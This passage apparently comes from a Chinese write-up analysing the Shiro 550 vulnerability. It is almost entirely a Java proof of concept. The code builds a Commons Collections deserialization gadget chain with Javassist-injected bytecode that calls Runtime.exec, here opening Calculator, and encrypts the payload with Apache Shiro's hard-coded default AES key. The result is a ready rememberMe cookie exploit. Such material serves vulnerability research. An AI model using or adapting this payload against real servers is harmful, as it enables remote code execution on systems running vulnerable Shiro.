 ```java
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class TestLazyMap {
    public static void main(String[] args) throws Exception {
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cls = pool.makeClass("Cat");
        String cmdlist = "open /System/Applications/Calculator.app";
        String cmd = "java.lang.Runtime.getRuntime().exec(\""+cmdlist+"\");";
        cls.makeClassInitializer().insertBefore(cmd);
        String randomName = "EvilCat" + System.nanoTime();
        cls.setName(randomName);
        cls.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cls.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates,"123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates,targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates,null);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        HashSet map = new HashSet(1);
        map.add(entry);
        lazyMap.remove("foo");
        Field f3 = transformer.getClass().getDeclaredField("iMethodName");
        f3.setAccessible(true);
        f3.set(transformer,"newTransformer");

        Field f4 = entry.getClass().getDeclaredField("key");
        f4.setAccessible(true);
        f4.set(entry,templates);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        byte[] payloads = byteArrayOutputStream.toByteArray();
        AesCipherService aes = new AesCipherService();
        byte[] key = new BASE64Decoder().decodeBuffer("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}

```
![image.png](Shiro 550 分析.assets/2023_05_19_10_37_01_TkgHaOuU.png)
![image.png](Shiro 550 分析.assets/2023_05_19_10_37_02_Y3xQuNKL.png)